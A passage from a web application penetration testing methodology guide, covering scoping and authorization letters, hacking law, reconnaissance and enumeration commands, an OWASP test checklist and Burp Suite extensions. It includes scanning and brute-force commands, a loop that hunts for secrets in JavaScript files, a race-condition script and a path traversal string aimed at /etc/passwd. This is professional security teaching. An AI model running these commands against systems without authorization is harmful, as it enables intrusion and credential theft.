



# Web Application Penetration Testing Methodology
> **A structured, professional process for legally discovering and exploiting vulnerabilities in web applications before attackers do**

---

## 🧠 What Is It?

Web application penetration testing (web pentest) is a **simulated, authorized cyberattack** against a web application performed to discover security vulnerabilities, assess their impact, and produce a remediation roadmap. Unlike automated scanning, a professional pentest combines human creativity, deep technical knowledge, and structured methodology to find vulnerabilities that tools alone miss — including business logic flaws, chained attack paths, and access control failures.

A pentest is **not** a vulnerability scan. It is a full-lifecycle adversarial simulation:

| Activity | Vulnerability Scan | Penetration Test |
|---|---|---|
| Tool-driven | ✅ Mostly | ✅ Partially |
| Human expertise | ❌ Minimal | ✅ Central |
| Exploitation confirmed | ❌ Usually not | ✅ Yes |
| Business impact assessed | ❌ | ✅ |
| Chained attacks | ❌ | ✅ |
| Actionable remediation | ⚠️ Generic | ✅ Specific |

---

## 🏗️ How It Works

A professional web application pentest follows a **repeatable, phased lifecycle**:

1. **Pre-Engagement** — Scope, rules, legal authorization
2. **Reconnaissance** — Passive and active information gathering
3. **Mapping & Enumeration** — Spider, discover endpoints, map attack surface
4. **Vulnerability Discovery** — Manual and tool-assisted testing per WSTG
5. **Exploitation** — Confirm and exploit findings, demonstrate impact
6. **Post-Exploitation** — Pivot, escalate, exfiltrate (within scope)
7. **Reporting** — Executive summary + technical findings + remediation

Every phase has **defined inputs, activities, tools, and outputs**. The methodology is driven by checklists (OWASP WSTG), standards (PTES, OWASP ASVS), and professional judgment.

---

## 📊 Diagram



---

## ⚙️ Technical Details

### Standards & Frameworks Covered

| Framework | Purpose | URL |
|---|---|---|
| OWASP WSTG v4.2 | Web security testing guide — canonical test cases | owasp.org/WSTG |
| PTES | Penetration Testing Execution Standard — full lifecycle | pentest-standard.org |
| OWASP ASVS v4 | Application Security Verification Standard | owasp.org/ASVS |
| CVSS v3.1 | Vulnerability scoring | first.org/cvss |
| CWE | Weakness enumeration | cwe.mitre.org |
| CVE | Vulnerability database | cve.mitre.org |

---

# Phase 0: Pre-Engagement

> **Everything that happens before a single packet is sent — scope, rules, and legal cover**

## 🧠 What Is It?

Pre-engagement is the **contractual and organizational foundation** of the pentest. Every subsequent action must be explicitly authorized here. Skipping this phase — or doing it poorly — is how pentesters end up prosecuted.

## 🏗️ How It Works

Pre-engagement produces three critical documents:
1. **Statement of Work (SoW)** — What will be done, how long, at what cost
2. **Rules of Engagement (RoE)** — What is in/out of scope, what is forbidden
3. **Authorization Letter** — Signed proof you are allowed to test

## ⚙️ Technical Details

### Scope Definition

A scope statement defines the **exact attack surface** the tester is authorized to test. It must be unambiguous.

**Example Scope Statement:**
```
AUTHORIZED SCOPE — Acme Corp Web Application Pentest
======================================================
In-Scope Targets:
  - https://app.acmecorp.com (production read-only, no destructive actions)
  - https://staging.acmecorp.com (full exploitation authorized)
  - IP Range: 203.0.113.0/24 (web servers only)
  - API: https://api.acmecorp.com/v1/* (all endpoints)

Out-of-Scope:
  - https://hr.acmecorp.com (handled by separate engagement)
  - Any third-party SaaS services (Stripe, Salesforce, Okta)
  - Physical security testing
  - Social engineering / phishing
  - DoS / DDoS attacks of any kind
  - Automated fuzzing on production database endpoints

Testing Window:
  - 2024-10-01 09:00 UTC to 2024-10-05 17:00 UTC

Emergency Contact:
  - John Smith (CISO): +1-555-0100 (24/7)
  - Jane Doe (DevOps Lead): +1-555-0101
```

### Rules of Engagement (RoE) Key Items

- **Testing hours**: Business hours only vs 24/7
- **Source IPs**: All traffic must originate from IP `X.X.X.X` (so defenders can whitelist/identify)
- **Destructive testing**: Explicitly allow or forbid data deletion, account lockout, DoS
- **Notification protocol**: How to notify client if critical vulnerability found mid-test
- **Data handling**: How captured credentials/PII must be handled and destroyed
- **Reporting deadline**: When deliverables are due

### Sample Authorization Letter Template

```
PENETRATION TEST AUTHORIZATION LETTER
======================================
Date: [DATE]

To Whom It May Concern,

This letter serves as written authorization for [PENTESTER/COMPANY NAME] to
perform security testing on the systems listed below, on behalf of [CLIENT
ORGANIZATION].

Authorized Tester:
  Name: [Full Name]
  Company: [Company Name]
  Email: [Email]

Authorized Target Systems:
  [List all in-scope IPs, domains, applications]

Authorization Period:
  Start: [DATE TIME TIMEZONE]
  End:   [DATE TIME TIMEZONE]

Authorized Activities:
  - Network and web application vulnerability scanning
  - Manual exploitation of discovered vulnerabilities
  - Privilege escalation testing (read-only on production)
  - Session token analysis
  - Authentication bypass testing

Explicitly Prohibited Activities:
  - Denial of Service attacks
  - Modification or deletion of production data
  - Testing of out-of-scope systems
  - Social engineering of employees

This authorization is signed by an individual with the legal authority to
grant access to the listed systems.

Authorized Signatory:
  Name:  [Full Name]
  Title: [Job Title - must be C-level, CISO, or equivalent]
  Signature: ____________________
  Date: [DATE]

Emergency Contact During Testing:
  [Name]: [Phone Number] (available [hours])
```

## 💥 Legal Framework

### United States — Computer Fraud and Abuse Act (18 U.S.C. § 1030)

The CFAA criminalizes **unauthorized access** to computer systems. Key provisions relevant to pentesters:

- **§ 1030(a)(2)**: Intentionally accessing a computer without authorization and obtaining information — **felony** if interstate commerce involved
- **§ 1030(a)(5)**: Knowingly causing damage to a protected computer — covers accidental DoS during testing
- **§ 1030(a)(7)**: Extortion involving computers

**Critical for pentesters**: The word "authorization" is key. Your signed authorization letter + SoW is what differentiates you from a criminal. Without it, even finding a public XSS could theoretically trigger CFAA liability.

**Good Samaritan provisions**: The CFAA does NOT have a "I found it for your own good" defense. If you test without authorization, good intentions are irrelevant.

### United Kingdom — Computer Misuse Act 1990

Three offenses relevant to pentesters:
- **Section 1**: Unauthorized access to computer material (up to 2 years)
- **Section 2**: Unauthorized access with intent to commit further offenses (up to 5 years)
- **Section 3**: Unauthorized modification of computer material (up to 10 years)

UK pentesters must have explicit, written authorization. The CMA has no explicit "authorized testing" exemption — authorization must be demonstrable.

### European Union

- **NIS2 Directive (2022/2555)**: Requires organizations to conduct regular security testing — creates a legitimate market for authorized pentesters
- **GDPR (2016/679) Article 32**: Organizations must implement "appropriate technical measures" — regular pentesting is considered evidence of compliance
- **Budapest Convention on Cybercrime**: International treaty criminalizing unauthorized computer access, signed by 65+ countries

### Best Practice Legal Protections

1. Always obtain **written authorization** before any testing activity
2. Never test from personal/home networks — use dedicated testing infrastructure
3. Keep **all logs** of your testing activity (timestamps, commands, findings)
4. Stop immediately and notify client if you **accidentally access out-of-scope systems**
5. Never retain **credentials, PII, or sensitive data** beyond what's needed for the report
6. Use **VPN/jump box** provided or approved by client where possible

## 🛠️ Pre-Engagement Tools

- **Dradis / Plextrac / Ghostwriter**: Collaborative reporting platforms
- **Plain contracts**: Use SANS, CREST, or bespoke legal templates
- **PGP / Signal**: Secure communication with client for sensitive findings

## 🛡️ Mitigation (for organizations)

- Only engage pentesters with **verifiable credentials** (OSCP, CREST CRT, CEH, eWPT)
- Require **proof of insurance** (Professional Indemnity / Cyber Liability)
- Conduct test in **staging environment first** before production
- Ensure your **legal team reviews the SoW** before signing

---

# Phase 1: Reconnaissance

> **Gathering intelligence about the target before touching it**

## 🧠 What Is It?

Reconnaissance (recon) is the **intelligence gathering phase** — collecting as much information as possible about the target to understand its attack surface. It is divided into **passive recon** (no direct contact with target) and **active recon** (direct interaction with target systems).

## 🏗️ How It Works

### Passive Reconnaissance

No packets sent to the target. Uses public sources (OSINT).

```bash
# DNS enumeration — find subdomains without touching target
subfinder -d acmecorp.com -all -recursive -o subdomains.txt
amass enum -passive -d acmecorp.com -o amass_passive.txt

# Certificate transparency logs — find all issued certs
curl "https://crt.sh/?q=%.acmecorp.com&output=json" | jq '.[].name_value' | sort -u

# Google dorks — find exposed files and login pages
# site:acmecorp.com filetype:pdf
# site:acmecorp.com inurl:admin
# site:acmecorp.com "index of /"
# site:acmecorp.com ext:sql OR ext:bak OR ext:env

# Wayback Machine — find historical URLs and removed endpoints
waybackurls acmecorp.com | tee wayback_urls.txt
gau --providers wayback,commoncrawl,otx acmecorp.com | tee gau_urls.txt

# ASN / IP range discovery
whois -h whois.radb.net -- '-i origin AS12345'
bgp.he.net  # manual lookup

# Email harvesting
theHarvester -d acmecorp.com -b all -f theHarvester_output.xml

# LinkedIn / employee enumeration (passive)
# LinkedIn search: company:"Acme Corp" title:"developer" OR "engineer" OR "DevOps"

# Shodan — internet-wide scan data
shodan search "hostname:acmecorp.com" --fields ip_str,port,org
shodan host 203.0.113.10  # detailed host info

# WHOIS
whois acmecorp.com
```

### Active Reconnaissance

Direct interaction with the target — **requires authorization**.

```bash
# DNS brute force
dnsx -d acmecorp.com -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -o dns_brute.txt
fierce --domain acmecorp.com

# Port scanning (web-focused)
nmap -sV -sC -p 80,443,8080,8443,8888,3000,5000 203.0.113.0/24 -oA nmap_web
nmap -sV --script http-title,http-headers,http-server-header -p 80,443 target.com

# Technology fingerprinting
whatweb -a 3 https://app.acmecorp.com
wappalyzer-cli https://app.acmecorp.com  # browser extension or CLI

# HTTP headers inspection
curl -sI https://app.acmecorp.com | tee headers.txt

# SSL/TLS analysis
sslscan app.acmecorp.com
testssl.sh app.acmecorp.com --html > ssl_report.html
```

## 📊 Diagram



## ⚙️ Technical Details

### Recon Output — What to Document

| Data Point | How to Get It | Why It Matters |
|---|---|---|
| All subdomains | subfinder, amass, crt.sh | Expands attack surface dramatically |
| Technologies (CMS, framework, server) | whatweb, wappalyzer, headers | Determines vulnerability classes to test |
| Open ports & services | nmap | Find non-standard web ports (8080, 3000, etc.) |
| SSL/TLS config | sslscan, testssl.sh | Weak ciphers, expired certs, misconfig |
| Email addresses | theHarvester | Password spraying, phishing (if in scope) |
| Historical endpoints | waybackurls, GAU | Exposed old admin panels, removed but still live endpoints |
| Error messages / debug info | Manual browsing | Stack traces reveal tech stack |
| JavaScript files | JS analysis | API keys, endpoints, secrets in source |
| Cloud assets (S3, Azure Blob) | cloud_enum, S3Scanner | Misconfigured cloud storage |

### JavaScript Secret Hunting

```bash
# Download and analyze all JS files
katana -u https://app.acmecorp.com -js-crawl -d 3 | grep '\.js$' | tee js_files.txt

# Hunt for secrets in JS
cat js_files.txt | while read url; do
    curl -s "$url" | grep -E "(api[_-]?key|secret|password|token|bearer|private)" -i
done

# Or use dedicated tools
secretfinder -i https://app.acmecorp.com -e -o secrets_output.html
trufflehog filesystem ./downloaded_js/
```

## 🛠️ Tools

| Tool | Category | Command |
|---|---|---|
| subfinder | Subdomain enum | `subfinder -d target.com -all` |
| amass | Subdomain enum | `amass enum -d target.com` |
| theHarvester | OSINT / email | `theHarvester -d target.com -b all` |
| shodan | Internet scanning | `shodan search hostname:target.com` |
| nmap | Port scanning | `nmap -sV -sC -p- target.com` |
| whatweb | Tech fingerprint | `whatweb -a 3 https://target.com` |
| waybackurls | Historical URLs | `echo target.com \| waybackurls` |
| gau | Historical URLs | `gau target.com` |
| sslscan | TLS analysis | `sslscan target.com` |
| testssl.sh | TLS analysis | `testssl.sh target.com` |
| katana | JS crawling | `katana -u https://target.com -js-crawl` |
| SecretFinder | JS secrets | `secretfinder -i https://target.com -e` |

---

# Phase 2: Mapping & Enumeration

> **Building a complete map of the application's structure, endpoints, and functionality**

## 🧠 What Is It?

Mapping transforms raw recon data into a **structured understanding of the application**: every URL, every parameter, every API endpoint, every authentication boundary, and every functional area. It is the blueprint you use to plan test coverage.

## 🏗️ How It Works

### Automated Spidering

```bash
# Katana — fast modern crawler
katana -u https://app.acmecorp.com \
  -d 5 \
  -js-crawl \
  -automatic-form-fill \
  -o katana_crawl.txt

# Gospider
gospider -s https://app.acmecorp.com \
  -c 10 \
  -d 5 \
  --include-subs \
  -o gospider_output/

# Hakrawler
echo "https://app.acmecorp.com" | hakrawler -d 3 -t 10 | tee hakrawler.txt

# Burp Suite Spider (via Burp REST API or manual)
# Use Burp's built-in crawler: Target → Site Map → Right-click → Spider this host
```

### Directory & File Bruteforce

```bash
# Feroxbuster — recursive directory bruteforce
feroxbuster -u https://app.acmecorp.com \
  -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt \
  -x php,asp,aspx,jsp,html,js,json,xml,bak,txt,config,yml,yaml \
  -t 50 \
  -r \
  --auto-tune \
  -o feroxbuster_results.txt

# Gobuster
gobuster dir \
  -u https://app.acmecorp.com \
  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt \
  -x php,html,js \
  -t 30 \
  -o gobuster_results.txt

# FFuF — flexible fuzzer
ffuf -u https://app.acmecorp.com/FUZZ \
  -w /usr/share/seclists/Discovery/Web-Content/raft-large-files.txt \
  -mc 200,201,301,302,403 \
  -o ffuf_results.json
```

### API Endpoint Discovery

```bash
# Check for API documentation
curl -s https://app.acmecorp.com/swagger.json | python3 -m json.tool
curl -s https://app.acmecorp.com/api-docs
curl -s https://app.acmecorp.com/openapi.yaml
curl -s https://app.acmecorp.com/graphql  # GraphQL endpoint

# GraphQL introspection
curl -s -X POST https://api.acmecorp.com/graphql \
  -H "Content-Type: application/json" \
  -d '{"query": "{ __schema { types { name } } }"}' | jq .

# Use kiterunner for API route discovery
kr scan https://api.acmecorp.com -w apis.kite -o kiterunner_results.txt
```

## ⚙️ Technical Details

### Attack Surface Document Structure

After mapping, you should produce an **Attack Surface Document** with:

```
Application: Acme Corp Web App
Base URL: https://app.acmecorp.com
Testing Date: 2024-10-01

AUTHENTICATION:
  - Login:         POST /api/v1/auth/login
  - Register:      POST /api/v1/auth/register  
  - Forgot PW:     POST /api/v1/auth/password-reset
  - OAuth:         GET  /oauth/authorize?provider=google
  - MFA:           POST /api/v1/auth/mfa/verify
  - Logout:        DELETE /api/v1/auth/session

USER MANAGEMENT:
  - Get Profile:   GET  /api/v1/users/{id}
  - Update Profile: PATCH /api/v1/users/{id}
  - Upload Avatar: POST /api/v1/users/{id}/avatar

ADMIN:
  - User list:     GET  /admin/users
  - Export data:   GET  /admin/export?format=csv
  - System config: GET  /admin/config

TECHNOLOGY STACK:
  - Frontend: React 18.2.0 (from bundle analysis)
  - Backend: Node.js / Express (from X-Powered-By header)
  - Database: PostgreSQL (from error messages)
  - CDN: Cloudflare
  - Auth: JWT (from response tokens, alg: HS256)
  - File storage: AWS S3 (from upload responses)
```

## 🛠️ Tools Summary

| Tool | Purpose |
|---|---|
| Burp Suite Pro | Intercept, spider, map, test |
| katana | Fast JS-aware web crawler |
| feroxbuster | Recursive directory brute force |
| ffuf | Fast web fuzzer — dirs, params, vhosts |
| gobuster | Directory/DNS/vhost bruteforce |
| kiterunner | API route discovery |
| Arjun | HTTP parameter discovery |

---

# Phase 3: Vulnerability Discovery

> **Systematically testing every part of the application against known vulnerability classes**

## 🧠 What Is It?

Vulnerability discovery is the **heart of the pentest** — systematically testing the application for every known vulnerability class using the OWASP Web Security Testing Guide (WSTG) as the definitive checklist.

## 📊 OWASP WSTG Complete Test Categories

### OTG-INFO — Information Gathering (9 tests)

| Test ID | Test Name | What to Check |
|---|---|---|
| WSTG-INFO-01 | Conduct Search Engine Discovery | Google dorks, Shodan, exposed files |
| WSTG-INFO-02 | Fingerprint Web Server | Server header, error pages, default files |
| WSTG-INFO-03 | Review Webserver Metafiles | robots.txt, sitemap.xml, .well-known/ |
| WSTG-INFO-04 | Enumerate Application on Webserver | Vhosts, apps on same server |
| WSTG-INFO-05 | Review Webpage Content for Info Leakage | HTML comments, JS source, metadata |
| WSTG-INFO-06 | Identify Application Entry Points | All input fields, params, headers |
| WSTG-INFO-07 | Map Execution Paths Through Application | Functional workflows |
| WSTG-INFO-08 | Fingerprint Web Application Framework | Framework detection, version |
| WSTG-INFO-09 | Fingerprint Web Application | CMS, libraries, components |
| WSTG-INFO-10 | Map Application Architecture | Infrastructure, WAF, reverse proxy |

### OTG-CONFIG — Configuration & Deployment (12 tests)

| Test ID | Test Name | What to Check |
|---|---|---|
| WSTG-CONF-01 | Test Network Infrastructure Config | TLS, HTTP methods, headers |
| WSTG-CONF-02 | Test Application Platform Config | Debug modes, stack traces, default creds |
| WSTG-CONF-03 | Test File Extension Handling | PHP executed vs served as text, bak files |
| WSTG-CONF-04 | Review Backup and Unreferenced Files | .bak, .old, .swp, editor temp files |
| WSTG-CONF-05 | Enumerate Infrastructure and App Admin Interfaces | /admin, /manager, /phpmyadmin |
| WSTG-CONF-06 | Test HTTP Methods | OPTIONS, PUT, DELETE, TRACE allowed? |
| WSTG-CONF-07 | Test HTTP Strict Transport Security | HSTS header present? |
| WSTG-CONF-08 | Test RIA Cross Domain Policy | crossdomain.xml, clientaccesspolicy.xml |
| WSTG-CONF-09 | Test File Permission | World-readable sensitive files |
| WSTG-CONF-10 | Test for Subdomain Takeover | Dangling DNS → unclaimed cloud resource |
| WSTG-CONF-11 | Test Cloud Storage | S3/GCS/Azure bucket permissions |
| WSTG-CONF-12 | Test Content Security Policy | CSP header analysis |

### OTG-IDENT — Identity Management (5 tests)

| Test ID | Test Name | What to Check |
|---|---|---|
| WSTG-IDNT-01 | Test Role Definitions | Are roles well-defined and enforced? |
| WSTG-IDNT-02 | Test User Registration Process | Duplicate accounts, weak validation |
| WSTG-IDNT-03 | Test Account Provisioning Process | How accounts are created/approved |
| WSTG-IDNT-04 | Test Account Enumeration and Guessable Accounts | Timing attacks on login/register |
| WSTG-IDNT-05 | Test Permissive Username Policy | SQL/XSS in usernames? Null bytes? |

### OTG-AUTHN — Authentication (10 tests)

| Test ID | Test Name | What to Check |
|---|---|---|
| WSTG-ATHN-01 | Test Credentials Transported over Encrypted Channel | No HTTP login forms |
| WSTG-ATHN-02 | Test Default Credentials | admin/admin, admin/password, vendor defaults |
| WSTG-ATHN-03 | Test Account Lockout Mechanism | Brute force possible? Lockout bypassable? |
| WSTG-ATHN-04 | Test for Bypassing Authentication Schema | Direct object references, forced browsing |
| WSTG-ATHN-05 | Test Vulnerable Remember Password | Cleartext in cookie, predictable token |
| WSTG-ATHN-06 | Test Browser Cache Weaknesses | Sensitive pages cached after logout |
| WSTG-ATHN-07 | Test Password Policy | Weak passwords allowed? |
| WSTG-ATHN-08 | Test Security Questions | Guessable answers, no limit |
| WSTG-ATHN-09 | Test Password Reset Feature | Predictable tokens, no expiry, re-use |
| WSTG-ATHN-10 | Test Stronger Authentication | MFA bypass, OTP reuse, SIM swap |

### OTG-AUTHZ — Authorization (4 tests)

| Test ID | Test Name | What to Check |
|---|---|---|
| WSTG-ATHZ-01 | Test Directory Traversal / File Include | ../../../etc/passwd, LFI/RFI |
| WSTG-ATHZ-02 | Test Bypassing Authorization Schema | IDOR, privilege escalation, BOLA |
| WSTG-ATHZ-03 | Test Privilege Escalation | Horizontal and vertical escalation |
| WSTG-ATHZ-04 | Test for IDOR | Access other users' resources via ID manipulation |

### OTG-SESS — Session Management (7 tests)

| Test ID | Test Name | What to Check |
|---|---|---|
| WSTG-SESS-01 | Test Session Management Schema | Token entropy, predictability, transport |
| WSTG-SESS-02 | Test Cookie Attributes | Secure, HttpOnly, SameSite, domain/path |
| WSTG-SESS-03 | Test Session Fixation | Pre-auth token accepted post-auth? |
| WSTG-SESS-04 | Test Exposed Session Variables | Session ID in URL, Referer leakage |
| WSTG-SESS-05 | Test CSRF | Cross-site request forgery protections |
| WSTG-SESS-06 | Test Logout Functionality | Server-side session invalidation on logout |
| WSTG-SESS-07 | Test Session Timeout | Idle timeout enforced? |
| WSTG-SESS-08 | Test Session Puzzling | Multiple session vars for different purposes? |
| WSTG-SESS-09 | Test JWT | Algorithm confusion, weak secrets, none alg |

### OTG-INPVAL — Input Validation (19 tests)

| Test ID | Test Name | What to Check |
|---|---|---|
| WSTG-INPV-01 | Test Reflected XSS | Reflected input in HTML response |
| WSTG-INPV-02 | Test Stored XSS | Persisted input rendered to other users |
| WSTG-INPV-03 | Test HTTP Verb Tampering | Method override, X-HTTP-Method-Override |
| WSTG-INPV-04 | Test HTTP Parameter Pollution | Duplicate params, param order manipulation |
| WSTG-INPV-05 | Test SQL Injection | All input fields, headers, cookies |
| WSTG-INPV-06 | Test LDAP Injection | Search functions, directory integration |
| WSTG-INPV-07 | Test XML Injection | XML parsers, SOAP endpoints |
| WSTG-INPV-08 | Test SSI Injection | Server-side include directives |
| WSTG-INPV-09 | Test XPath Injection | XML/XSLT based backends |
| WSTG-INPV-10 | Test IMAP/SMTP Injection | Email functionality |
| WSTG-INPV-11 | Test Code Injection | eval(), exec(), system(), template injection |
| WSTG-INPV-12 | Test Command Injection | OS command execution via user input |
| WSTG-INPV-13 | Test Buffer Overflow | C/C++ backends, unusual platforms |
| WSTG-INPV-14 | Test Format String | printf-style format strings |
| WSTG-INPV-15 | Test Incubated Vulnerability | Multi-step exploits, time-delayed payloads |
| WSTG-INPV-16 | Test HTTP Splitting/Smuggling | CRLF injection, HTTP request smuggling |
| WSTG-INPV-17 | Test SSRF | External resource fetching, webhooks |
| WSTG-INPV-18 | Test SSTI | Template engine injection (Jinja2, Twig, etc.) |
| WSTG-INPV-19 | Test Mass Assignment | Unprotected model binding |

### OTG-ERRH — Error Handling (2 tests)

| Test ID | Test Name | What to Check |
|---|---|---|
| WSTG-ERRH-01 | Test Improper Error Handling | Stack traces, DB errors, path disclosure |
| WSTG-ERRH-02 | Test Stack Traces | Technology, version, internal path exposure |

### OTG-CRYPST — Cryptography (4 tests)

| Test ID | Test Name | What to Check |
|---|---|---|
| WSTG-CRYP-01 | Test Weak Transport Layer Security | SSL 3.0, TLS 1.0, weak ciphers, BEAST/POODLE |
| WSTG-CRYP-02 | Test Padding Oracle | CBC mode padding oracle attacks |
| WSTG-CRYP-03 | Test Sensitive Information Sent via Unencrypted Channels | HTTP mixed content, plaintext APIs |
| WSTG-CRYP-04 | Test Weak Encryption | MD5/SHA1 for passwords, ECB mode AES |

### OTG-BUSLOGIC — Business Logic (9 tests)

| Test ID | Test Name | What to Check |
|---|---|---|
| WSTG-BUSL-01 | Test Business Logic Data Validation | Negative prices, impossible quantities |
| WSTG-BUSL-02 | Test Ability to Forge Requests | Bypass client-side validation |
| WSTG-BUSL-03 | Test Integrity Checks | Tamper with hidden fields, cookies |
| WSTG-BUSL-04 | Test for Process Timing | Race conditions in transactions |
| WSTG-BUSL-05 | Test Number of Times Function Used Limits | Coupon reuse, API rate limit bypass |
| WSTG-BUSL-06 | Testing for Circumventing Workflows | Skip payment step, force-browse to confirmation |
| WSTG-BUSL-07 | Test Defenses Against Application Misuse | Automated scraping, credential stuffing |
| WSTG-BUSL-08 | Test Upload of Unexpected File Types | Upload PHP via image field |
| WSTG-BUSL-09 | Test Upload of Malicious Files | Polyglot files, macro-enabled docs |

### OTG-CLIENT — Client-Side Testing (12 tests)

| Test ID | Test Name | What to Check |
|---|---|---|
| WSTG-CLNT-01 | Test DOM-Based XSS | document.write, innerHTML with user input |
| WSTG-CLNT-02 | Test JavaScript Execution | eval(), setTimeout() with user input |
| WSTG-CLNT-03 | Test HTML Injection | User input in HTML without XSS chars |
| WSTG-CLNT-04 | Test Client-Side URL Redirect | Open redirect via JS |
| WSTG-CLNT-05 | Test CSS Injection | Style injection, attribute CSS injection |
| WSTG-CLNT-06 | Test Client-Side Resource Manipulation | JSONP, script src manipulation |
| WSTG-CLNT-07 | Test Cross-Origin Resource Sharing | Overly permissive CORS (origin: null, *) |
| WSTG-CLNT-08 | Test Cross-Site Flashing | Flash (legacy) crossdomain.xml |
| WSTG-CLNT-09 | Test Clickjacking | X-Frame-Options or CSP frame-ancestors |
| WSTG-CLNT-10 | Test WebSockets | Auth, injection, origin validation |
| WSTG-CLNT-11 | Test Web Messaging | postMessage() without origin check |
| WSTG-CLNT-12 | Test Browser Storage | Sensitive data in localStorage, sessionStorage |
| WSTG-CLNT-13 | Test Cross-Site Script Inclusion | CSRF via script tags |

---

## 💥 Using Burp Suite as a Central Platform

### Burp Suite Setup & Configuration

Burp Suite Pro is the **industry-standard** web application testing platform. Here's a professional configuration:

#### 1. Proxy Setup

```
Settings → Network → Connections → Upstream Proxy (if needed)
Settings → Proxy → Proxy Listeners:
  - 127.0.0.1:8080 (default)
  - Bind to all interfaces if testing from mobile: 0.0.0.0:8080

Browser: Configure Firefox to use HTTP proxy 127.0.0.1:8080
Import Burp CA certificate: http://burp → CA Certificate → Import to browser
```

#### 2. Scope Configuration

```
Target → Scope → Add:
  Include:
    - https://app.acmecorp.com/*
    - https://api.acmecorp.com/*
  Exclude:
    - https://app.acmecorp.com/logout  (prevent accidental logouts)
    - *cdn.acmecorp.com*               (CDN noise)
    - *google-analytics.com*           (third-party noise)

Proxy → Options → Intercept:
  "And URL Is in target scope" — only intercept in-scope requests
```

#### 3. Key Burp Extensions

**ActiveScan++** — Extends active scanner with additional checks:
```
BApp Store → ActiveScan++ → Install
Adds: XXE, SSRF edge cases, Host header injection, 
      cache poisoning, Java deserialization probes
```

**Param Miner** — Discovers hidden parameters:
```
BApp Store → Param Miner → Install

Usage: Right-click any request → Extensions → Param Miner → Guess everything
Config: Settings → Extensions → Param Miner:
  - Enable: Add dynamic cachebuster
  - Enable: Bruteforce header names
  - Wordlist: /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt

# It will find hidden params like:
GET /api/user?id=123 → discovers undocumented ?debug=true, ?admin=1
```

**Autorize** — Automated authorization testing:
```
BApp Store → Autorize → Install

Usage:
1. Log in as low-privileged user (e.g., "user_a")
2. Copy session cookie to Autorize's "Unauthenticated Header" config
3. Log in as privileged user (e.g., "admin")
4. Browse the app normally
5. Autorize automatically re-issues every request with "user_a" cookie
6. Red = enforced (low priv blocked), Green = IDOR/auth bypass found
```

**Turbo Intruder** — High-speed request repeater for race conditions:
```python
# BApp Store → Turbo Intruder → Install

# Example: Race condition on coupon redemption
# Right-click request → Extensions → Turbo Intruder

def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=30,
                           requestsPerConnection=100,
                           pipeline=True)
    for i in range(50):
        engine.queue(target.req, None)

def handleResponse(req, interesting):
    table.add(req)
```

**Logger++** — Advanced request logging:
```
BApp Store → Logger++ → Install

Config:
  - Log all requests in scope
  - Export to CSV for offline analysis
  - Create filters: Status != 404, Method = POST
  - Use grep column to highlight interesting responses
```

**JWT Editor** — JWT manipulation:
```
BApp Store → JWT Editor → Install

Tests enabled:
  - Algorithm confusion (RS256 → HS256)
  - "none" algorithm bypass
  - Empty signature bypass
  - Weak secret brute force (embedded)
  - Key injection via JKU/X5U header
```

**Hackvertor** — Encoding/decoding chains:
```
BApp Store → Hackvertor → Install

Usage: Select text in Repeater → right-click → Hackvertor → encode
